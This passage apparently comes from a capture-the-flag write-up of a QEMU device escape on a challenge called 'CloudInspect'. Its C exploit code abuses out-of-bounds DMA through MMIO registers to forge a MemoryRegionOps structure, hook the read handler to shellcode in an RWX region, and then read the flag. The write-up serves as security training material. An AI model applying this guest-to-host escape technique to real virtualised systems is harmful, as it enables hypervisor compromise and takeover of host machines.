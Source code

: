 ```c
```

### Craft fake MemoryRegionOps structure


To cratf a fake `MemoryRegionOps`, I just read the original `MemoryRegionOps` structure, I edited the `read` handler, and I wrote it back, in a writable memory area, at `leak_rwx+0x2000`. Given that `sizeof(MemoryRegionOps)` is not superior to `DMA_SIZE`, I can read and write in one time. Then we got:

```c
// Craft fake MemoryRegionOps structure by reading the original one

struct MemoryRegionOps fake_ops = {0};
printf("[*] reading struct mmio.MemoryRegionOps @ %lx\n", ops_struct);

iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, -(addr_obj - ops_struct));
iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, sizeof(struct MemoryRegionOps));
iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, dmabuf_phys_addr);
ioread(CLOUDINSPECT_MMIO_OFFSET_TRIGGER);

// Write it in the fake struct
memcpy(&fake_ops, dmabuf, sizeof(struct MemoryRegionOps));
fake_ops.read = (leak_rwx + 0x1000); 
// Edit the handler we want to hook to make it point to the shellcode at leak_rwx + 0x1000

printf("[*] fake_ops.read = %lx\n", leak_rwx + 0x1000);
memcpy(dmabuf, &fake_ops, sizeof(struct MemoryRegionOps));

// patch it and write it @ leak_rwx + 0x2000
iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, leak_rwx - addr_obj + 0x2000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, sizeof(struct MemoryRegionOps));
iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, dmabuf_phys_addr);
iowrite(CLOUDINSPECT_MMIO_OFFSET_TRIGGER, 0x300);
```

### Hook mmio.ops + PROFIT


We just have to replace the original `CoudInspect.mmio.ops` pointer to a pointer to the `fake_ops` structure.
Then, next time we send a read request, the shellcode will be executed! And we will just need to retablish the original `CoudInspect.mmio.ops` pointer to read the flag at `leak_rwx+0x5000`! Which gives:

```c
write_dmabuf(-0xd0, leak_rwx+0x2000);
// Set the pointer to the MemoryRegionOps to the fake MemoryRegionOps	

ioread(0x37); // trigger the read handler we control, then the shellcode is 
// executed and the flag is written @ leak_rwx + 0x5000[enter link description here](cloudinspect)

printf("[*] CloudInspectState.mmio.ops.read () => jmp @ %lx\n", leak_rwx + 0x1000);

char flag[0x30] = {0};
// So we just have to read the flag @ leak_rwx + 0x5000

write_dmabuf(-0xd0, ops_struct);
printf("[*] CloudInspectState.mmio.ops = original ops\n");
printf("[*] Reading the flag @ %lx\n", leak_rwx + 0x5000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, leak_rwx - addr_obj + 0x5000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, 0x30);
iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, dmabuf_phys_addr);
```